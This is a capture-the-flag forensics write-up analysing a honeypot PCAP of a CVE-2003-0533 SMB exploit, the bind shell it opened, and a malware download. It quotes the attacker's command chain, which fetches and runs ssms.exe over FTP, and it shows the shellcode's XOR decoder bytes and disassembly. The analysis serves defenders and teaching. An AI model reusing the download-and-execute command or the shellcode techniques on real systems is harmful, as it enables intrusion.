# HoneyBOT Lab: A Network Forensics Walkthrough

*Writeup by Mahmoud Alashwal*

## Challenge Overview



| | |
|---|---|
| **Platform** | CyberDefenders |
| **Category** | Network Forensics |
| **Difficulty** | Medium |
| **Tactics** | Initial Access, Execution, Privilege Escalation, Stealth, Command and Control |
| **Tools** | Wireshark, NetworkMiner, VirusTotal, WhatIsMyIP, CyberChef, scdbg |

As a SOC analyst, you are given a PCAP file captured from a honeypot. The task is to reconstruct the network intrusion by analyzing the traffic with Wireshark, identifying the **CVE-2003-0533** exploit, extracting the malware, and performing shellcode analysis to uncover the attacker's techniques and Indicators of Compromise (IOCs). Note: the victim's IP address was changed to hide the true location.



### Tools Used

- [**Wireshark**](https://www.wireshark.org) — used to open the PCAP, filter traffic, follow TCP streams, and inspect packet details
- [**NetworkMiner**](https://www.netresec.com/?page=networkminer) — used to extract hosts, sessions, and files from the PCAP
- [**VirusTotal**](https://www.virustotal.com/) — used to look up the extracted malware hash and get its first submission date
- [**WhatIsMyIP**](https://www.whatismyip.com) — used to look up the geolocation and owner of the attacker's IP address
- [**CyberChef**](https://gchq.github.io/CyberChef/) — used to decode the XOR-encoded shellcode
- [**scdbg**](http://sandsprite.com/blogs/index.php?uid=7&pid=152) — used to emulate the shellcode and see the API calls it makes

---

## Q1

> What is the attacker's IP address?

**Using Wireshark:** open the PCAP and go to **Statistics → Conversations**.



In the **IPv4** tab there is a single conversation between `98.114.205.102` and `192.150.11.111` (348 packets). `98.114.205.102` sends 195 packets (174 kB) and receives only 153 packets (9 kB), which fits an attacker pushing an exploit and payload to the honeypot.



**Using NetworkMiner:** in the **Sessions** tab, the client host of every session targeting the victim on ports 445, 1957, and 1080 is `98.114.205.102`.



**Answer:** `98.114.205.102`

---

## Q2

> What is the target's IP address?

The same three screenshots as Q1 show both sides of the conversation.

**Using Wireshark:** in the **IPv4** tab, the other side of the conversation (Address B) is `192.150.11.111`.


**Using NetworkMiner:** in the **Sessions** tab, the **Server host** column is always `192.150.11.111` (hostname **VIDCAM**) for the sessions the attacker opens.


**Answer:** `192.150.11.111`

---

## Q3

> Provide the country code for the attacker's IP address (a.k.a geo-location).

Take the attacker's IP from Q1 and look it up using [WhatIsMyIP](https://www.whatismyip.com/ip-address-lookup/). The IP Details page shows:

- **Hostname:** `pool-98-114-205-102.phlapa.fios.verizon.net`
- **ISP:** Verizon Business
- **Country:** United States
- **State/Region:** Pennsylvania
- **City:** Philadelphia



**Answer:** `US`

---

## Q4

> How many TCP sessions are present in the captured traffic?

**Using Wireshark:** go to **Statistics → Conversations** and open the **TCP** tab. The tab label shows the count (**TCP · 5**) and the table lists five sessions:

| Stream | Source | Destination |
|---|---|---|
| 0 | 98.114.205.102:1821 | 192.150.11.111:445 |
| 1 | 98.114.205.102:1828 | 192.150.11.111:445 |
| 2 | 98.114.205.102:1924 | 192.150.11.111:1957 |
| 3 | 192.150.11.111:36296 | 98.114.205.102:8884 |
| 4 | 98.114.205.102:2152 | 192.150.11.111:1080 |



**Using NetworkMiner:** in the **Hosts** tab, expand the attacker's host. It shows **Outgoing sessions: 4** (to the target on ports 445, 1957, and 1080) and **Incoming sessions: 1** (on TCP 8884, the connection the target opens back to the attacker). 4 + 1 = 5.



**Answer:** `5`

---

## Q5

> How long did it take to perform the attack (in seconds)?

Go to **Statistics → Capture File Properties** (Ctrl+Alt+Shift+C).



In the **Time** section:

- **First packet:** 2009-04-20 05:28:28
- **Last packet:** 2009-04-20 05:28:44
- **Elapsed:** 00:00:16



**Answer:** `16`

---

## Q6

> Provide the CVE number of the exploited vulnerability.

**Step 1 — Find the suspicious RPC call in Wireshark:** after the SMB session setup, the tree connect to `\\192.150.11.111\ipc$`, and the `\lsarpc` pipe, a **DCERPC bind** is followed by a large request in frame 33 using the **DSSETUP** protocol:

`DsRoleUpgradeDownlevelServer request [Long frame (3208 bytes)]`

The call is reassembled from 3 TCP segments (frames 29, 31, 33), and the hex pane shows a long run of `90 90 90 ...` (a NOP sled), typical of a buffer overflow exploit.



**Step 2 — Search for the function name:** searching for `DsRoleUpgradeDownLevelServer` leads to the NVD entry **CVE-2003-0533**, described as a stack-based buffer overflow in certain Active Directory service functions in LSASRV.DLL of the Local Security Authority.



NVD entry: <https://nvd.nist.gov/vuln/detail/CVE-2003-0533>

**Answer:** `CVE-2003-0533`

---

## Q7

> Which protocol was used to carry over the exploit?

**Step 1 — Follow the TCP stream in Wireshark:** right-click the exploit packet (frame 33) and choose **Follow → TCP Stream** (Ctrl+Alt+Shift+T).



**Step 2 — Read the stream:** the string **SMB** appears repeatedly, together with `NT LM 0.12`, `\\192.150.11.111\ipc$`, and the `\lsarpc` pipe.



**Using NetworkMiner:** under the target's **Host Details**: preferred SMB dialect `NT LM 0.12`, SMB file share `\\192.150.11.111\ipc$`, native LAN manager `Windows 2000 LAN Manager`, native OS `Windows 5.1`.



**Answer:** `SMB`

---

## Q8

> Which protocol did the attacker use to download additional malicious files to the target system?

**Step 1 — Filter the suspicious stream:** the session on port 1957 (stream 2) comes right after the exploit. Apply the filter `tcp.stream eq 2`, right-click the data packet and choose **Follow → TCP Stream**.



**Step 2 — Read the commands:** the attacker sent this command chain to the target's shell:

```
echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
```

- The `echo` commands write an FTP script file named `o` (`open`, `user`, `get ssms.exe`, `quit`).
- `ftp -n -s:o` runs the built-in Windows **ftp** client with that script.
- `del /F /Q o` deletes the script.
- `ssms.exe` executes the downloaded file.



**Answer:** `FTP`

---

## Q9

> What is the name of the downloaded malware?

From the same stream as Q8, the FTP script contains `get ssms.exe`, and the last part of the command line executes it.



**Answer:** `ssms.exe`

---

## Q10

> The attacker's server was listening on a specific port. Provide the port number.

From the same stream, the FTP script starts with `open 0.0.0.0 8884`. The number after the address is the port. This matches the session from the target to the attacker on port 8884 seen in Q4.



**Answer:** `8884`

---

## Q11

> When was the involved malware first submitted to VirusTotal for analysis? Format: YYYY-MM-DD

**Step 1 — Locate the malware transfer:** apply the filter `frame.number == 72`. This is the first data packet of the large session on port 1080, and the hex pane shows the **MZ** header of a Windows executable.

**Step 2 — Follow the TCP stream:** right-click the packet and choose **Follow → TCP Stream**.



**Step 3 — Save the file:** set **Show data as** to **Raw** and save the stream to disk. In this case it was saved as `HoneyBOT2.pcap`, but it is the raw malware executable.



**Step 4 — Calculate the hash:**

```
sha256sum HoneyBOT2.pcap
b14ccb3786af7553f7c251623499a7fe67974dde69d3dffd65733871cddf6b6d
```



**Step 5 — Search the hash on VirusTotal:** under **Details → History**, the file (a Win32 EXE, 155 KB) shows **First Submission: 2007-06-27 08:47:05 UTC**.



**Answer:** `2007-06-27`

---

## Q12

> What is the key used to encode the shellcode?

**Step 1 — Open TCP stream 1:** apply the filter `tcp.stream eq 1`. This is the session on port 445 that carries the exploit from Q6.

**Step 2 — Find the decoder stub:** after the NOP sled in the hex pane there is a short piece of code:

```
eb 10 5a 4a 33 c9 66 b9 7d 01 80 34 0a 99 e2 fa eb 05 e8 eb ff ff ff
```

| Bytes | Instruction | Meaning |
|---|---|---|
| `eb 10` | `jmp` | Jump to the `call` at the end (jmp/call/pop trick) |
| `5a` | `pop edx` | Get the address of the encoded payload |
| `4a` | `dec edx` | Adjust the pointer |
| `33 c9` | `xor ecx, ecx` | Clear the counter |
| `66 b9 7d 01` | `mov cx, 0x17d` | Payload length: 381 bytes |
| `80 34 0a 99` | `xor byte [edx+ecx], 0x99` | XOR each byte with the key |
| `e2 fa` | `loop` | Repeat for all bytes |

The last byte of the `xor` instruction is the key: **0x99**.

**Step 3 — Confirm in CyberChef:** XOR the 381 bytes that follow the stub with key `99` (Hex). The output contains readable strings such as `GetProcAddress`, `CreateProcessA`, `LoadLibraryA`, `ws2_32`, `WSASocketA`, `bind`, `listen`, and `accept`.

<!-- TODO: add screenshots: q12-a.png (hex pane with the decoder stub), q12-b.png (CyberChef XOR 99 output) -->

**Answer:** `0x99`

---

## Q13

> What is the port number the shellcode binds to?

**Step 1 — Extract the shellcode:** follow `tcp.stream eq 1`, keep the direction from the attacker to the target, set **Show data as** to **Raw**, and save it as `shellcode.bin`.

**Step 2 — Emulate it with scdbg:**

```
scdbg.exe /f shellcode.bin /findsc
```

The API calls show the socket setup: `LoadLibraryA(ws2_32)`, `WSASocketA`, `bind`, `listen`, `accept`, then `CreateProcessA`.

**Step 3 — Confirm in the disassembly:** the code that builds the `sockaddr_in` structure before `bind` is:

```
mov dword ptr [edi], 0xa5070002
```

In memory the bytes are `02 00 07 a5`: `02 00` is `AF_INET` and `07 a5` is the port in network byte order, `0x07a5` = **1957**. This matches the session on port 1957 from Q4, which carried the FTP commands from Q8.

<!-- TODO: add screenshots: q13-a.png (scdbg output), q13-b.png (bytes 02 00 07 a5) -->

**Answer:** `1957`

---

## Q14

> The shellcode used a specific technique to determine its location in memory. What is the OS file being queried during this process?

The decoded shellcode starts by walking the **PEB (Process Environment Block)**:

```
mov eax, dword ptr fs:[0x30]     ; PEB
mov eax, dword ptr [eax + 0xc]   ; PEB->Ldr
mov esi, dword ptr [eax + 0x1c]  ; InInitializationOrderModuleList
lodsd                            ; next module in the list
mov eax, dword ptr [eax + 8]     ; base address of that module
```

- `fs:[0x30]` points to the PEB, which points to the loader data (`Ldr`) with the list of loaded modules.
- In initialization order the first module is `ntdll.dll` and the second is `kernel32.dll`, so `lodsd` skips one entry and takes the base address of `kernel32.dll`.
- The code then parses that module's export table and compares each name with `GetProcAddress` (`push 0xe`, `repe cmpsb`, 14 characters), then uses it to resolve `LoadLibraryA`, `CreateProcessA`, and `ExitThread`.

The filename is not written as plain text inside the shellcode; it is identified from the module order and the exports the code searches for.

<!-- TODO: add screenshot: q14-a.png (disassembly of the PEB walk) -->

**Answer:** `kernel32.dll`

---

## Summary

This writeup covers the **HoneyBOT Lab**, a Network Forensics challenge built around a honeypot PCAP that captures a complete automated exploitation in just 16 seconds.

The attacker `98.114.205.102` (United States) connected to the honeypot `192.150.11.111` over **SMB (port 445)** and exploited **CVE-2003-0533** through an oversized `DsRoleUpgradeDownlevelServer` RPC call. The shellcode, XOR-encoded with key `0x99`, found `kernel32.dll` through the PEB, resolved its APIs, and opened a **bind shell on port 1957**. Through that shell the attacker ran an FTP script to download **ssms.exe** from the attacker's server on **port 8884**. The extracted executable has SHA-256 `b14ccb37...cddf6b6d` and was first submitted to VirusTotal on **2007-06-27**.

### Key IOCs

| Type | Value |
|---|---|
| Attacker IP | `98.114.205.102` |
| Target IP | `192.150.11.111` |
| Exploited CVE | `CVE-2003-0533` |
| Transport protocol | SMB (445) |
| Shellcode XOR key | `0x99` |
| Bind shell port | `1957` |
| Attacker FTP port | `8884` |
| Malware file | `ssms.exe` |
| SHA-256 | `b14ccb3786af7553f7c251623499a7fe67974dde69d3dffd65733871cddf6b6d` |

### Takeaways

- Filtering on port 445 and looking for unusually large RPC calls with NOP sleds helps detect this exploit.
- Outbound FTP from a server and unexpected new listening ports like 1957 are strong detection signals.
- Following the TCP streams in order (exploit, bind shell, FTP download) shows the full attack chain.
